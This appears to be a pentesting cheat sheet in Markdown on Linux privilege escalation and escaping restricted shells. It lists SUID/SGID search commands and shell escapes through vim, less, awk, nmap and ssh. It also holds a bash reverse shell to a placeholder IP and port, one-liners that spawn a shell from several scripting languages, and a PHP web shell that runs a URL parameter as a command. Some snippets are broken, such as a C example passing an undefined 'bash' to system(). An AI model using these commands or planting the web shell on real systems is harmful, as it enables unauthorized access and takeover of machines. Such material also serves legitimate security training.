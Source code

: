 # Search for Commands that run as Root:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```


## Restricted Shells: rbash, rksh, rzsh, lshell and rssh
1. try ls, cd, pwd, echo commands [if these commands are restricted, 
   an error will show up with the type of restricted shell we are in (most of the time, this is rbash)]
2. press tab twice to see what commands are available.
  a. if "ls" is avaiable list binaries in /bin, /usr/bin, /usr/local/bin
  b. echo /usr/bin/*  [use globbing to list directory contents]
  c. important to check for operators and escape characters such as the following:
  ```
     > >> < | & ; : ' " `
  ```
3. Try commands wrapped
```
(whoami)
{whoami}
```

## Shell Execution:
```
find /home -exec sh -i \;
```
## use text editors vim, vi, nano, pico, ed
```
:!/bin/sh, !/bin/zsh, try other shells!?!?
:shell
:set shell=/bin/sh
:set shell=/bin/bash:shell
:!bash
```

## use pagers less, more, or programs like man that use less or more by default
```
!/bin/sh, !/bin/zsh, try other shells!?!?
!/bin/bash
!bash
```

## use awk command
```
awk 'BEGIN {system("/bin/sh")}'
```

## use expect command
```
expect
spwan sh
sh
```

## use tee command to create a script in scenarios where text editors aren't available
```
echo "bash -i" | tee script.sh
```

## use nmap command
```
nmap --interactive
nmap> !sh
```

## use ssh with the following options to escape restricted shell 
```
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "/bin/sh"
```

## Reverse Shell:

```
bash -i >& /dev/tcp/<ip-address>/<port> 0>&1
```

# Programming Language:

## Python:
```
import os; os.system("/bin/sh")
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## PHP:
```
exec("sh -i");
```

## PHP Webshell:
```
<?php
  $command = $_GET['cmd'];
  echo system($command);
?>
```

## Perl:
```
exec "/bin/sh";
```
```
perl —e 'exec "/bin/sh";'
```

## Ruby:
```
exec "/bin/sh"
```
```
ruby -e 'exec "/bin/sh"'
```

## IRB:
```
exec "/bin/sh"
```

## Lua:
```
os.execute("/bin/sh")
```

## C:
```
#include <stdio.h>

int main(int argc, char **argv)
{
	int status = system(bash);
	return 0;
}
```
